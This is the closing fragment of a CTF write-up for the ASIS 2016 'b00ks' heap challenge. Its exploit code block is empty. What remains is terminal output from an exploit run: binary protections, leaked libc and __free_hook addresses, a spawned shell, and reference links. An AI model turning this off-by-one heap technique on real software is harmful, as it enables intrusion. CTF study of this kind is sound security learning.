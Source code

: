 ```Python  
```  
getshell  
```shell  
N0vice@ubuntu:~/Desktop/BUUCTF/asis2016_b00ks$ python exp.py 
[+] Starting local process './b00ks': pid 5084
[*] '/home/N0vice/Desktop/BUUCTF/asis2016_b00ks/b00ks'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] u'/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] book1_addr==>0x55c96b9b2160
0x7faee678b010
[+] libc_base==>0x7faee61e7000
[+] stytem_addr==>0x7faee622c390
[+] free_hook_addr==>0x7faee65ad7a8
[+] binsh_addr==>0x7faee6373d57
[*] Switching to interactive mode
$ id
uid=1000(N0vice) gid=100(users) groups=100(users)
$  
```  
参考链接：  
https://p1kk.github.io/2019/10/03/Asis%20CTF%202016%20b00ks(obo)/wp/  
https://www.jianshu.com/p/3bb7ef1f8881  
https://cq674350529.github.io/2018/06/05/asis-ctf-2016-pwn-b00ks/  
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/off_by_one-zh/  
https://blog.csdn.net/qq_41918771/article/details/101347234  